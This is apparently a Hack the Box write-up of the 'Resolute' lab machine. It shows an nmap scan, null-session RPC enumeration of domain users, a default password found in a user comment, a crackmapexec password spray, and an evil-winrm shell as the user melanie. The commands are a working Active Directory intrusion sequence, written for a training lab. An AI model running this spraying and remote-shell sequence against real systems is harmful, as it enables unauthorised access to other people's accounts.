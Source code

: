 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.169 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.169
Host is up (0.19s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49711/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.74 seconds
```

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ vim users.txt

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5] 
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]   
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Use within vim to extract the usernames:`%s/user:\[\(.*\)\] rid:\[.*\]/\1/g`

  - Password Spray
```CSS
▶ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8f91e8ba-959b-47e8-bf89-3f0a19668ac7)

```CSS
Credentials- melanie:Welcome123!
```

---

# FootHold
## Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e36af976-1ab7-4e1d-80f3-4512e6388fd6)
